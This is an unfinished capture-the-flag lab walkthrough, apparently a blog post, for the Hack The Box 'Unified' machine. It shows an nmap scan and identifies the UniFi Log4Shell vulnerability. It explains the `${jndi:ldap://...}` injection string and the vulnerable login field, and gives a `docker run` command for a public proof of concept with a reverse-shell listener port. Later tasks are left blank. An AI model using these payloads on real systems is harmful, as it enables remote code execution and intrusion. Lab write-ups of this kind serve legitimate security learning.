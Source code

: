 ```yaml
---
title: 'Unified - HTB Starting Point Tier 2'
description: 'Writeup for Unified box'
pubDate: 'Feb 8 2025'
heroImage: '/blog-placeholder-3.jpg'
---
```



## Unified
*MongoDB, Java, Code Injection*

The final Starting Point on the free tier! This is a momentous occasion. 

**Task 1**  
Which are the first four open ports?  

```bash
nmap -sC $TARGET --min-rate=2000 -oN nmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 20:16 AEDT
Nmap scan report for 10.129.96.149
Host is up (0.34s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to https://10.129.96.149:8443/manage
8443/tcp open  https-alt
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage

Nmap done: 1 IP address (1 host up) scanned in 18.31 seconds
```

22,6789,8080,8443

**Task 2**  
What is the title of the software that is running running on port 8443?  

Unifi Network

**Task 3**  
What is the version of the software that is running?  

Navigating to the web app, we see `6.4.54`


**Task 4**  
What is the CVE for the identified vulnerability?  

A quick search of "Unifi Network 6.4.54 cve" leads us to a github repo to exploit the log4j vulnerability `CVE-2021-44228`


**Task 5**  
What protocol does JNDI leverage in the injection?  

LDAP.

This [Cloudflare blog](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/) specifies that LDAP was the primary focus of the CVE. FRom this blog, it looks like the JNDI interface could load up an arbitrary Java object via LDAP, e.g. `ldap://localhost:389/0=JNDITutorial` finds the JNDITutorial object from the local LDAP server and parses the object to read attributes. If you can control the LDAP URL, you can load up arbitrary objects in a Java runtime environment, and thus is the focus of this vulnerability.

Log4j contained a syntax that allowed the evaluation of a value to place into logs. It took the format `${prefix:name}`. `prefix` would specify the lookup to use, and the `name` would be the target of evaluation. e.g. `${java:version}` to retrieve the java version. Thus if an attacker could get log4j to write `${jndi:ldap://example.com/a}`, then log4j will try and resolve the object from that ldap server - this was added in Log4J2-313. A user-agent is a common field that gets logged.


**Task 6**  
What tool do we use to intercept the traffic, indicating the attack was successful?  

`tcpdump`


**Task 7**  
What port do we need to inspect intercepted traffic for?  

`389` as the LDAP port


**Task 8**  
What port is the MongoDB service running on?  

Default port is 27017


**Task 9**  
What is the default database name for UniFi applications?  

It seems that we want machine access at this point. I tried to capture the traffic in tcpdump and wireshark, but since it's using TLS the data is encrypted. I could spend time setting that up, or the writeup just suggests to use a proxy like burpsuite. I will dive in and try to use burpsuite for the first time. A learning experience! 

Reading [this](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) article from Sprocket security  
> The vulnerability is in the `rememberme` value issued in the login request
>
> ```
> {"username":"asdf","password":"asdfas","remember":"<PAYLOAD>","strict":true}
> ```

In this situation, I will try and use the POC published by `puzzlepeaches`, found [here](https://github.com/puzzlepeaches/Log4jUnifi?tab=readme-ov-file)

... one docker install later ...

docker run -it -v $(pwd)/loot:/Log4jUnifi/loot -p 8090:8090 -p 1389:1389 log4junifi \ 
    -u https://10.129.36.131:8443 -i 192.168.1.1 -p 4444

Didn't accomplish too much in this session. Just installing docker and getting up and running with the POC.

**Task 10**  
What is the function we use to enumerate users within the database in MongoDB?  


**Task 11**  
What is the function we use to update users within the database in MongoDB?  


**Task 12**  
What is the password for the root user?  


**Task 13**  
Submit user flag  


**Task 14**  
Submit root flag  






echo \
  "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.asc] https://download.docker.com/linux/debian \
  $(. /etc/os-release && echo "$VERSION_CODENAME") stable" | \
  sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
